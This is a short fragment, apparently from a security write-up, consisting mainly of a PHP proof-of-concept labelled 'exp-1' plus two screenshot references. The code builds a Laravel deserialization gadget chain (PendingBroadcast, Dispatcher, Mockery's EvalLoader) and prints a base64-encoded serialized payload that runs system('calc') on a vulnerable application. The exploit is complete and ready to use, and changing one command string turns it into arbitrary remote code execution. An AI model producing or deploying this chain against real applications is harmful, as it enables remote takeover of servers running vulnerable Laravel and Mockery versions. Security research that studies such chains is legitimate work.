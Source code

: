 <img src="./images/poc-6-2.png" alt="">

<img src="./images/poc-6-3.png" alt="">

### exp-1
```php
<?php
namespace Mockery\Generator {
    class MockConfiguration {
        protected $name = 'H3rmesk1t';
    }
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct() {
            $this->config = new MockConfiguration();
            $this->code = "<?php system('calc');?>";
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
            $this->connection = new MockDefinition();
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```